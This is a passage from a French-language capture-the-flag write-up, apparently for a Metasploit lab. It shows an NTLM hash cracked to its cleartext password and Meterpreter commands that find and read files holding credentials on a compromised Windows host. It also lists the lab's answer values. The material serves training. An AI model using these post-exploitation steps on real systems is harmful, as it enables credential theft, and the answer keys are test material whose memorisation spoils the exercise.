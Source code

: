 **Réponse :** `69596c7aa1e8daee17f8e78870e25a5c`

---

**Question 5 : What is the cleartext password of the jchambers user?**

Pour déchiffrer le hash NTLM, j'ai utilisé le service en ligne [Hashes.com](https://hashes.com/en/decrypt/hash).

**Hash soumis :** `69596c7aa1e8daee17f8e78870e25a5c`

**Réponse :** `Trustno1`

---

**Question 6 : Where is the "secrets.txt" file located? (Full path of the file)**

Utilisation de la commande `search` pour localiser le fichier :

```bash
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                          Size (bytes)  Modified (UTC)
----                                                          ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  156       2021-07-15 14:23:18 +0100
```

**Réponse :** `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt`

---

**Question 7 : What is the Twitter password revealed in the "secrets.txt" file?**

Lecture du contenu du fichier :

```bash
meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```

**Réponse :** `KDSvbsw3849!`

---

**Question 8 : Where is the "realsecret.txt" file located? (Full path of the file)**

Nouvelle recherche de fichier :

```bash
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                                Size (bytes)  Modified (UTC)
----                                ------------  --------------
c:\inetpub\wwwroot\realsecret.txt   45            2021-07-15 14:30:12 +0100
```

**Réponse :** `c:\inetpub\wwwroot\realsecret.txt`

---